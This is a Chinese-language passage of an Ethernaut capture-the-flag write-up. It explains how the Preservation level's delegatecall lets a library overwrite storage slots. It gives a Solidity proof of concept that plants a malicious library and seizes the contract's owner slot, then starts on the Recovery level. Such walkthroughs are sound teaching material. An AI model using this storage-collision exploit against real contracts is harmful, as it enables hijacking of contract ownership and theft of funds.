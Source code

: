 源码就不分析了比较简单，主要的就是这里：

```javascript
    function setFirstTime(uint _timeStamp) public {
      timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
```

参考上面的delegatecall的讲解，执行环境为调用者的环境，也就是当前Preservation合约的环境。
调用了`LibraryContract`的`setTime()`方法。修改了storedTime：

```javascript
    // stores a timestamp 
    uint storedTime;  

    function setTime(uint _time) public {
      storedTime = _time;
    }
```

storedTime是位于slot0的，因此实际上是修改Preservation合约的storage中slot0，也就是`address public timeZone1Library;`，因此这个`address public timeZone1Library;`是我们可控的，既然这个可控了，可以自己写一个恶意合约，让这个量是我们的恶意合约的地址，然后这个合约中的setTime函数修改一下slot2的值，也就是owner即可。
写个POC：

```javascript
//SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

 contract LibraryContract {
     address public timeZone1Library;
     address public timeZone2Library;
     address public owner;      
     function setTime(uint _time) public {
         owner = 0x7D11f36fA2FD9B7A4069650Cd8A2873999263FB8;
     }
 }
 
 contract Feng {
     LibraryContract lib = new LibraryContract();
     address public target = 0xf423151f829CD798877bD52b2752387D22CF5416;
     function attack() public {
         target.call(abi.encodeWithSignature("setFirstTime(uint256)",lib));
         target.call(abi.encodeWithSignature("setFirstTime(uint256)",uint(1)));
     }
 }
```

# Recovery

挺迷的一题。。。主要是因为英文介绍我死活看不懂。。。：

> A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.5 ether to obtain more tokens. They have since lost the contract address.
> This level will be completed if you can recover (or remove) the 0.5 ether from the lost contract address.
